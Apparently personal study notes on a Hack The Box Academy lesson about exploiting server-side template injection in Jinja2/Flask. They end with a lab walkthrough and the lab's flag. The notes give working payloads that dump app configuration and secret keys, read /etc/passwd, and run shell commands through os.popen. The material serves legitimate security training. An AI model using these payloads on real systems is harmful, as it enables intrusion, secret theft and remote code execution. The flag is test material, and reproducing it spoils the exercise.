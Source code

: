 ```yaml
---
sticker: lucide//book-template
---
```

Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the `Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the `import` statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![](Pasted%20image%2020250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

![](Pasted%20image%2020250212131817.png)

![](Pasted%20image%2020250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![](Pasted%20image%2020250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![](Pasted%20image%2020250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![](Pasted%20image%2020250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![](Pasted%20image%2020250212132138.png)

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

